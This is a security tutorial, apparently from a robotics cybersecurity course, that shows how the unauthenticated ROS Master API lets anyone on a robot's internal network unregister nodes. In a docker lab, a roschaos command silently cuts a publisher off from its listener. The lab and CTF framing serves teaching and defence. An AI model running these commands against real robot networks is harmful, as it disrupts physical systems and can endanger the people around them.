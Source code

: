 ### Unauthenticated registration/unregistration with ROS Master API

In this tutorial we'll review how the [ROS Master API](http://wiki.ros.org/ROS/Master_API#register.2BAC8-unregister_methods) requires no authentication capabilities to register and unregister publishers, subscribers and services. This leads to a [reported vulnerability] (https://github.com/aliasrobotics/RVDP/issues/87) that can easily be exploited with off-the-shelf penetration testing tools by an attacker with access to the internal robot network.

This work is heavily based on [1],[2] and [3].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity11:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity11:latest
```

----

Let's start by listing the ROS Nodes and Topics participating in the network. After launching the container:
```bash
root@d64845e9601e:/# rosrun scenario1 talker &
root@d64845e9601e:/# rosrun scenario1 listener
```

Now, let's get a second command line into the simulated robotic scenario running over docker. To do so:

```bash
| => docker ps
CONTAINER ID        IMAGE                          COMMAND                  CREATED             STATUS              PORTS               NAMES
935c390c1e49        basic_cybersecurity11:latest   "/root/launch_script…"   20 seconds ago      Up 19 seconds                           vibrant_chandrasekhar

| => docker exec -it 935c390c1e49 /bin/bash
root@935c390c1e49:/#

```

On the second terminal of the same docker instance:
```bash

root@d64845e9601e:/# rosnode list
/listener
/publisher
/rosout
root@d64845e9601e:/# rostopic list
/flag
/rosout
/rosout_agg
```

We can see that there're several Nodes, we're mainly interested on `/publisher` and `/listener`. Both, exchanging information through the `/flag` Topic as follows:

```bash
root@d64845e9601e:/# rostopic echo /flag
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
...
```

#### Unregistering `/publisher` from `/listener`

```bash
root@655447dc534c:/# rosnode list
/listener
/publisher
/rosout
root@655447dc534c:/# roschaos master unregister node --node_name /publisher
Unregistering /publisher
```

You will see that the listener stops getting messages. If we now verify it:

```bash
root@655447dc534c:/# rosnode list
/listener
/rosout
```

We observe that the ROS Master does not find `/publisher` anymore, it's been unregistered.
Furthermore, the process `talker` is still running:

```bash
root@655447dc534c:/# ps -e
  PID TTY          TIME CMD
    1 pts/0    00:00:00 launch_script.b
   31 pts/0    00:00:00 roscore
   42 ?        00:00:01 rosmaster
   55 ?        00:00:01 rosout
   72 pts/0    00:00:00 bash
   78 pts/1    00:00:00 bash
   90 pts/0    00:00:00 talker
  108 pts/0    00:00:01 listener
  174 pts/1    00:00:00 ps
```


### Bibliography
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Dieber, B., Breiling, B., Taurer, S., Kacianka, S., Rass, S., & Schartner, P. (2017). Security for the Robot Operating System. Robotics and Autonomous Systems, 98, 192-203.
- [3] SROS2 Tutorial, IROS 2018. Retrieved from https://ruffsl.github.io/IROS2018_SROS2_Tutorial/.
- [4] roschaos. Retrieved from https://github.com/ruffsl/roschaos.
- [5] ROSPenTo. Retrieved from https://github.com/jr-robotics/ROSPenTo.
